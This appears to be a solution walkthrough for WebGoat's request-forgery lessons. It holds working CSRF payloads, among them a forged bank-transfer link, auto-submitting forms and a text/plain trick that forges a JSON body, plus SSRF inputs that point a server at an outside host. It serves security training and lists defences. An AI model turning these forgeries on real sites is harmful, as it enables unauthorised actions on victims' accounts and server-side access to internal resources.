 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [A8:2013 Request Forgeries](#a82013-request-forgeries)
  - [Cross-Site Request Forgeries](#cross-site-request-forgeries)
  - [Server-Side Request Forgery](#server-side-request-forgery)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# A8:2013 Request Forgeries

## Cross-Site Request Forgeries

### 1. What is a Cross-site request forgery?

### 2. CSRF witha GET request

`<a href="http://bank.com/transfer?account_number_from=123456789&account_number_to=987654321&amount=100000">View my Pictures!</a>`

### 3. Basic GET CSRF Exercise

```xml
<form 
	method="POST" 
	target="_blank" 
	action="http://localhost:8080/WebGoat/csrf/basic-get-flag">

    <input name="csrf" type="hidden" value="false">
    <input type="submit" name="submit">

</form>
```

### 4. Post a review on someone else’s behalf

```xml
<form 
	method="POST" 
	action="http://localhost:8080/WebGoat/csrf/review">

	<input 
		name="reviewText" 
		placeholder="Add a Review" 
		type="text">
	<input 
		name="stars" 
		type="text">
	<input 
		type="hidden" 
		name="validateReq" 
		value="2aa14227b9a13d0bede0388a7fba9aa9">
	<input 
		type="submit" 
		name="submit" 
		value="Submit review">
</form>
```

### 5. Automatic support from frameworks

Define a separate cookie for CSRF protection, do not reuse the session cookie.
Remember the session cookie should always be defined with http-only flag.

### 6. But I only have JSON APIs and no CORS enabled, how can those be susceptible to CSRF?

Do not rely on `application/json` content type but implement a proper CSRF protection.

### 7. CSRF and content-type

```
POST /csrf/feedback/message HTTP/1.1

{
  "name"    : "WebGoat",
  "email"   : "webgoat@webgoat.org",
  "content" : "WebGoat is the best!!"
}
```

```xml
<form
	name="postform"
	method="post"
	action="http://localhost:8080/WebGoat/csrf/feedback/message/"
	enctype="text/plain">
	
	<input 
		type="hidden" 
		name='
		{
			"name":"WebGoat",
			"email":"webgoat@webgoat.org",
			"content":"WebGoat is the best!!",
			"subject":"service'
		value='"}'>
</form>

<script type="text/javascript">
	document.postform.submit();
</script>
```

### 8. Login CSRF attack

The attacker creates an account on the vulnerable site.
The attacker createa CSRF login form that is served to the victim.
The victim inconciously logs in to the vulnerable site.
The victim's activities are logged for the attacker account.
Afterwards the attacker can gather information on the victim activity on the vulnerable site.

### 9. CSRF Impact & Solutions

- same site cookie attribute
- built-in support from framework

## Server-Side Request Forgery

### 1. Concept

### 2. Change the URL to display Jerry

Change

```xml
<input id="url" type="hidden" name="url" value="images/tom.jpg">
```

to

```xml
<input id="url" type="hidden" name="url" value="images/jerry.jpg">
```

### 3. Change the URL to display the Interface Configuration with ifconfig.pro

Change

```xml
<input id="url" type="hidden" name="url" value="images/tom.jpg">
```

to

```xml
<input id="url" type="hidden" name="url" value="http://ifconfig.pro">
```

### 4. Prevent

- whitelist of allowed domains, resources and protocols from where the web server can fetch resources
- input validation
- avoid user input for resources to be fetched
